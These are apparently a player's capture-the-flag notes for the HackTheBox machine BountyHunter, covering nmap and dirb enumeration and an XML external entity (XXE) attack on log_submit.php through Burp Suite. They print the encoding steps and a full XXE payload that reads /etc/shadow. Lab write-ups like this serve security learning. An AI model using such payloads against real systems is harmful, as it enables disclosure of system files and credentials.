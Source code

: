 ### Box Info
OS: Linux
IP: 10.10.11.100

## Part I 

### Skills learned:
xml xxe vulnerability


### Enum
nmap -p- -A -oN BountyHunter.txt ${IP}
+ 22 SSH 
+ 80 http Apache httpd 2.4.41

### Search
Yields
+ https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing

### Step 1: 
+ dirb ${IP} || dirb ${IP}/ -X .php
  + /assets/
  + /log_submit.php
  + /resources/
  
### Burp suite
+ ${IP}/log_submit.php
+ dummy test packet
  + Data needs to be *URL then Base64 decoded*
  + Find template https://github.com/payloadbox
  + adjust titles to mimic db.php titles
  + payload needs to be *Base64 then url encoded*
+ Send payload via Burp/Repeater.

#### db.php payload:
<?xml version="1.0" encoding="ISO-8859-1"?>
<bugreport>
<title>test</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>test</reward>
</bugreport>

#### payload file disclosure:
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<bugreport>
<title>&ent;</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>test</reward>
</bugreport>

Obtain Username: ${UN}
